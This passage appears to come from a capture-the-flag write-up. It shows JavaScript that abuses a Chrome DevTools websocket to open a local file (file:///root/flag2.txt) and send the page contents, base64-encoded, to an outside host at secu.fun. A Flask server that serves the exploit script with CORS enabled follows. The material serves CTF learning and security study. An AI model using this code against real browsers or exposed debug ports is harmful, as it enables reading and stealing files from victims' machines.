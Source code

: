 ```js
            }, 1000)
            return LFIfromWS(webSocketUrl);
        }
    }
    return null;
}


function LFIfromWS(targetWebSocketUrl) {
    // Create a websocket in our site and exploit it to access file:// and then leak the FS ! 
    const ws = new WebSocket(targetWebSocketUrl);
    fetch(`http://secu.fun:8080/?c=websocket+actived`)
    ws.onopen = function(event) {
        console.log('WebSocket connection established.');
        ws.send(JSON.stringify({ id: 0, method: 'Page.navigate', params: { url: 'file:///root/flag2.txt' } })); //Load file or folder
        setTimeout(() => {ws.send(JSON.stringify({ id: 1, method: 'Runtime.evaluate', params: { expression: 'fetch(`http://secu.fun:8080/?c=${btoa(encodeURIComponent(document.body.innerHTML))}`)' } }))}, 2000);
    };
}

const targetPageUrl = 'https://secu.fun/exploit';

window.open(targetPageUrl, '_blank'); // This will be our exploit page, must not be empty

setTimeout(() => { // During Chrome restart, devtool port will change and can be long
    fetchAndUsePort();
}, 2000);
```

---
## 👑 - Final payload

No way we can pass all this javascript into the `?q=` argument (more than **98000** caracters when encoded). I opted for a rather disgusting solution, but functional and practical.

Setup a flask server without CORS and share the js exploit :

```python
from flask import Flask, send_from_directory, make_response
from flask_cors import CORS

app = Flask(__name__)
CORS(app)

@app.route('/payload')
def serve_js():
    response = make_response(send_from_directory('static', 'exploit.js'))
    return response

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0')
```
